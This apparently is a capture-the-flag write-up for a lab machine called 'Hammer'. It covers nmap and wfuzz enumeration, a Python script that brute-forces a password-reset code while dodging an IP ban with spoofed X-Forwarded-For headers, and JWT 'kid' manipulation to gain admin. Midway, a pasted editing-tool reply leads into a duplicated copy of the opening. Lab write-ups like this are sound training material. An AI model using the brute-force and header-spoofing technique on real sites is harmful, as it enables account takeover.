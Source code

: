 # Enumeration

I first ran a scan on the default ports but didn't get any relevant results.

`nmap -sC -sV -v -p- 10.10.28.212`

![](./assets/nmap.png)

So, there are two open ports:
- 22 for ssh
- 1337 for the web server

# First Flag

When you visit the website, the main page is a login page.

![](./assets/login.png)

Looking at the source code, we can see an endpoint to `reset_password.php` and a naming convention for the directories (which we may need to keep in mind).

![](./assets/login_source.png)

On the reset page, there isn’t anything particularly interesting except for some unusual JavaScript code.

![](./assets/reset.png)

![](./assets/reset_source.png)

I decided to perform an enumeration of the site.

`wfuzz -w ~/Pentest/Wordlist/SecLists-master/Discovery/Web-Content/big.txt -c --hc 404 -u http://10.10.28.212:1337/hmr_FUZZ`

We see the `hmr_logs` directory. Inside, there is a file containing an email: tester@hammer.thm

![](./assets/errors_log.png)

![](./assets/password_reset)

Here is the corrected version of the normal text from your markdown. The markdown syntax and code sections are left untouched, but grammatical and phrasing improvements have been made to the explanatory text:
Enumeration

I first ran a scan on the default ports but didn’t get any relevant results.

So, there are two open ports:

    22 for SSH
    1337 for the web server

First Flag

When you visit the website, the main page is a login page.

Looking at the source code, we can see an endpoint to reset_password.php and a naming convention for the directories (which we may need to keep in mind).

On the reset page, there isn’t anything particularly interesting except for some unusual JavaScript code.

I decided to perform an enumeration of the site.

We discover the hmr_logs directory. Inside, there is a file containing an email: tester@hammer.thm.

At this point, we need to brute-force the recovery code. However, the site bans your IP address after too many attempts. With this in mind, my first approach was to submit a single token until it worked. I managed to succeed once, thanks to luck :) but this method takes too much time. So let's think a little. The site prevents ip addresses from submitting a new code after too many attempts. What if we change our ip thanks to a header like `X-Forwarded-For` ?

Another thing to consider is the timer: the code becomes obsolete after 3 minutes.

So I wrote this python code :

```python3
import requests 
import random

def generate_random_ip():
    return ".".join(str(random.randint(0, 255)) for _ in range(4))

reset_url = "http://10.10.28.212:1337/reset_password.php"
email = "tester@hammer.thm"
email_data = {
    "email": email
}

error_message = "Invalid or expired recovery code!"
banning_message = "Rate limit exceeded. Please try again later."

headers = {
    "Host": "10.10.12.73:1337",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "Content-Length": "23",
    "Origin": "http://10.10.12.73:1337",
    "Connection": "keep-alive",
    "Referer": "http://10.10.12.73:1337/reset_password.php",
    "Cookie": "PHPSESSID=7pd41l7khuho3c0puajobp3u56",
    "Upgrade-Insecure-Requests": "1",
    "Priority": "u=0, i",
    "X-Forwarded-For": "90.80.70.60"
}

#request to reset the password
session = requests.Session()
session.post(reset_url, headers=headers, data=email_data)

for code in range(1000, 10000):
    
    print("trying code :", code)
    data = {
        "recovery_code": code
    }
    
    req = session.post(reset_url, headers=headers, data=data)
        
    #ip is banned
    if banning_message in req.text:
        headers["X-Forwarded-For"] = generate_random_ip()
        req = session.post(reset_url, headers=headers, data=data)
        
    # code found    
    if not error_message in req.text:
        print(req.text)
        print("Code found :", code)
        print("Resetting password")

        #reset password
        data = {
            "new_password": "meow",
            "confirm_password": "meow"
        }
        req = session.post(reset_url, headers=headers, data=data)
        break
```
After reseting the user password, you can access the `dashboard.php` endpoint and get the first flag.

# Second Flag

On this page, there is a form where you can submit a command to execute (although limited). Nonetheless, looking at the javascript code, we can see that the script send a command to `execute_command.php` with a jwt token.

```js 
$(document).ready(function() {
    $('#submitCommand').click(function() {
        var command = $('#command').val();
        var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM0MTc4NTk0LCJleHAiOjE3MzQxODIxOTQsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.vX-nHFXOpuyKGlbQDEnfaeLnLVi2EhcjMrhI2fcsuoM';

        // Make an AJAX call to the server to execute the command
        $.ajax({
            url: 'execute_command.php',
            method: 'POST',
            data: JSON.stringify({ command: command }),
            contentType: 'application/json',
            headers: {
                'Authorization': 'Bearer ' + jwtToken
            },
            success: function(response) {
                $('#commandOutput').text(response.output || response.error);
            },
            error: function() {
                $('#commandOutput').text('Error executing command.');
            }
        });
    });
});
```

![](./assets/jwt.png)

Another interesting file is the key in the same directory.

![](./assets/dashboard.png)

All we need to do now is change our role to admin by providing this key as the kid. 

![](./assets/jwt_admin.png)

![](./assets/last_flag.png)